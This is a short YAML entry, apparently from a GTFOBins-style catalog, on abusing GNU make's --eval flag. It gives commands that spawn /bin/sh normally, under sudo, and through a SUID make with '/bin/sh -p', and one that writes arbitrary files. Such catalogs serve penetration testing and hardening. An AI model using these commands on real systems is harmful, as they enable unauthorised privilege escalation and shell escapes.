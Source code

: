 ```yaml
---
description: |
  All these examples only work with GNU `make` due to the lack of support of the
  `--eval` flag. The same can be achieved by using a proper `Makefile` or by
  passing the content via stdin using `-f -`.
functions:
  execute-interactive:
    - code: |
        COMMAND='/bin/sh'
        make -s --eval=$'x:\n\t-'"$COMMAND"
  sudo-enabled:
    - code: |
        COMMAND='/bin/sh'
        sudo make -s --eval=$'x:\n\t-'"$COMMAND"
  suid-enabled:
    - code: |
        COMMAND='/bin/sh -p'
        ./make -s --eval=$'x:\n\t-'"$COMMAND"
  file-write:
    - description: Requires a newer GNU `make` version.
      code: |
        LFILE=file_to_write
        make -s --eval="\$(file >$LFILE,data)" .
---
```

